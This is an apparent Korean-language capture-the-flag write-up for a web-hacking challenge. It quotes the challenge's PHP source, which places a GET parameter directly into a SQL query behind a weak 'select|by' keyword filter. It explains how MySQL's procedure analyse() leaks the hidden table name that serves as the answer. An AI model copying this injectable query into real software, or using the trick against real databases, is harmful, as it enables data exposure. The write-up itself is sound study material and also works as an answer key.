

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**




# **Write-Up**

view-source를 클릭하면 answer값이 테이블 명과 같으면 점수를 획득할 수 있다.

```php
... 생략 ...
<?php
  $db = dbconnect();
  include "./tablename.php";
  if($_GET['answer'] == $hidden_table) solve(53);
  if(preg_match("/select|by/i",$_GET['val'])) exit("no hack");
  $result = mysqli_fetch_array(mysqli_query($db,"select a from $hidden_table where a={$_GET['val']}"));
  echo($result[0]);
?>
... 생략 ...
```

procedure analyse()를 이용하여 컬럼이 어떤 DB에 속하는지, 어떤 테이블에 속하는 지, 최솟값 등 알 수 있다. 단, where절이 있을 경우 존재하는 데이터를 넣어야한다.

    mysql> SELECT name FROM test_table WHERE id=1 procedure analyse();
    +----------------------+-----------+-----------+------------+------------+------------------+-------+-------------------------+------+------------------------+
    | Field_name           | Min_value | Max_value | Min_length | Max_length | Empties_or_zeros | Nulls | Avg_value_or_avg_length | Std  | Optimal_fieldtype      |
    +----------------------+-----------+-----------+------------+------------+------------------+-------+-------------------------+------+------------------------+
    | test.test_table.name | admin     | admin     |          5 |          5 |                0 |     0 | 5.0000                  | NULL | ENUM('admin') NOT NULL |
    +----------------------+-----------+-----------+------------+------------+------------------+-------+-------------------------+------+------------------------+
    1 row in set, 1 warning (0.00 sec)

이를 이용하면 table명을 확인할 수 있다.


answer에 테이블명을 전달하여 점수를 획득하자.

